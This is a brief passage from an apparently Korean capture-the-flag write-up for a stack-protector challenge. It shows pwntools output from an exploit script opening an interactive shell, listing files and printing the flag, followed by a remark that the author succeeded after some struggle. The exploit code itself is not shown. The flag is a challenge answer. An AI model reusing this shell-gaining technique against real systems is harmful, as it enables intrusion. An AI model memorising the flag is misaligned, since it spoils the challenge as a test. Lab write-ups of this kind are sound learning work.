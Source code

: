 ```c
/root/바탕화면/ssp_1/./answer.py:20: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendlineafter(": ",'80')
[*] Switching to interactive mode
$ ls
flag
run.sh
ssp_001
$ cat flag
DH{00c609773822372daf2b7ef9adbdb824}
```

막판에 많이 헤매긴 했지만 성공적으로 flag 값을 얻어냈다.
